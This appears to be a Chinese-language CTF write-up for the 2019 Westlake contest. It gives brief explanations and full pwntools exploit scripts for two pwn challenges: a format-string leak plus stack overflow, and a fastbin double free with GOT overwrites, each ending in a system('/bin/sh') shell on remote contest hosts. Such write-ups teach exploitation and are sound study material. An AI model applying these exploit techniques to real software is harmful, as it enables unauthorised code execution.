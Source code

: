 ```yaml
---
title: Westlake_2019
date: 2019-04-10 22:23:31
tags:
---
```

西湖论剑 2019
<!--more-->
# start
感觉省外竞争好激烈...省内混进决赛感觉很惭愧...
最后题pwn没做出来..还是自己太菜了#单独和0ctf的storm一起写篇
前两题pwn比较简单.
# story
[binary][0]
第一个是fmtstr的漏洞第二个是溢出漏洞.
合起来简单用法就是fmtstr泄露canary和libc
溢出跳one_gadge或者system
## exp
```python
from pwn import *
context.log_level='debug'
#p=process("./story")
p=remote("ctf2.linkedbyx.com",10525)
#gdb.attach(p,'b printf')
p.sendlineafter("ID:","%23$p|%25$p")
p.readuntil("ello ")
canary=int(p.readuntil("|")[:-1],16)
base=int(p.readline()[:-1],16)-(0x7ffff7a2d830-0x7ffff7a0d000)
log.warning(hex(canary))
log.warning(hex(base))
p.sendlineafter("story:\n",str(1024))
one=0x3ac5c
libc=ELF("./story").libc
libc.address=base
p.sendlineafter("story:\n","A"*0x88+p64(canary)*2+p64(0x0000000000400bd3)+p64(libc.search("/bin/sh").next())+p64(libc.symbols['system']))
p.interactive()
```
# noinfoleak
[binary][1]
好像就是没有show但是double_free
double_free控制到bss上的list对free的got改写为puts的plt
之后泄露地址,然后改写atoi的got为system

## exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter(">",str(c))
def add(size,c):
	cmd(1)
	cmd(size)
	p.sendlineafter(">",c)
def free(idx):
	cmd(2)
	cmd(idx)
def edit(idx,c):
	cmd(3)
	cmd(idx)
	p.sendafter(">",c)
#p=process("./noinfoleak")
p=remote("ctf2.linkedbyx.com",10856)
got=0x000000000601018
puts=0x4006b0
context.log_level='debug'
add(0x67,"A")#0
add(0x67,"A")#1
free(0)
free(1)
free(0)
add(0x67,p64(0x60108d))
add(0x67,"A")
add(0x67,"A")
add(0x67,"\x00"*3+p64(got)+p64(0x20)+p64(0x000000000601020)+p64(0x20)+p64(0x000000000601068)+'\xaa')
edit(0,p64(0x4006b0)[:-1])
free(1)
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7a7e290-0x7ffff7a0d000)
libc=ELF("./noinfoleak").libc
libc.address=base
log.info(hex(base))
edit(2,p64(libc.symbols['system']))
cmd("/bin/sh")
#gdb.attach(p)


p.interactive()

```
[0]:https://github.com/n132/Watermalon/tree/master/westlake/story
[1]:https://github.com/n132/Watermalon/tree/master/westlake/noinfoleak